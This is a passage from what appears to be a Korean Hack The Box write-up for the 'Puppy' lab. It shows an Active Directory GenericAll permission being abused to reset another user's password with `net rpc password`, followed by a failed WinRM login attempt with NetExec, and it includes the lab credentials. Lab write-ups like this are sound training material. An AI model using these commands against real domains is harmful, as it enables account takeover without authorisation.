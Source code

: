 
### Abusing GenericAll Permissinos (ANT.EDWARDS > ADAM.SILVER) 

<img src='assets/post/2025/Playground/Hack The Box/Puppy/24.png' width=1200 alt=''>

<br>

- GenericAll 권한을 악용하여 패스워드 변경 후 WinRM 접속을 시도했지만 실패했다.  
- 해당 계정이 비활성화 상태인 경우 접속이 되지 않는 경우가 있기때문에 확인을 해봐야한다.  

```zsh
➜  smb net rpc password "adam.silver" "N3WP4SSW0RD123\!" -U "puppy.htb"/"ant.edwards"%"Antman2025\!" -S "dc.puppy.htb"
➜  smb nxc winrm 10.129.28.145 -u adam.silver -p "N3WP4SSW0RD123\!"
WINRM       10.129.28.145   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.28.145   5985   DC               [-] PUPPY.HTB\adam.silver:N3WP4SSW0RD123!
```

<br>

- 계정 비활성화 확인은 여러 방법이 있겠지만(?) `bloodyAD`를 사용하여 확인했다.  
- 커버로스 인증을 위한 티켓은 `impacket-getTGT` 바이너리를 이용하여 발급했다.  
